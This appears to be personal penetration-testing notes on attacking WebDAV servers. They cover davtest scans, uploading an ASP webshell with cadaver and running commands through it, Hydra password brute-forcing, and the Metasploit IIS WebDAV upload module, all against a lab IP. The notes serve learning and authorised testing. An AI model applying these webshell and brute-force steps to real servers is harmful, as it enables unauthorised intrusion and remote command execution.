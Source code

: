 # Webdav

- Requires creds to carry out attacks
- **Davtest** is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.
- **Cadaver** is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

- run nmap script http-enum if port 80 is open : /webdav/ should exist
- `davtest -url http://10.0.16.177/webdav`
![davtest output 1](./images/webdav-01.png)
- `davtest -auth <user>:<password> -url http://10.0.16.177/webdav` : should tell what file extensions could be uploaded like asp for sending potential payloads
![davtest output 2](./images/webdav-02.png)
- /usr/share/webshells/asp/ - stores webshells
- cadaver http://10.0.16.177/webdav
	- enter legit creds
	- put /usr/share/webshells/asp/webshell.asp
	- access backdoor using browser - http://10.0.16.177/webdav/webshell.asp
	- http://10.0.16.177/webdav/webshell.asp?cmd=whoami

# Hydra

- `hydra -L <userlist> -P <passlist> <ip> http-get /webdav/`

# Metasploit

-	to get interactive session
- exploit/windows/iis/iis_webdav_upload_asp - use this module
	- set PATH /webdav/metasploit%RAND%.asp
	- set HttpUsername <user>
	- set HttpPassword <pass>

# References:

1. DAVTest (https://github.com/cldrn/davtest)
2. Cadaver (https://github.com/grimneko/cadaver)
3. ASP Webshell (https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp)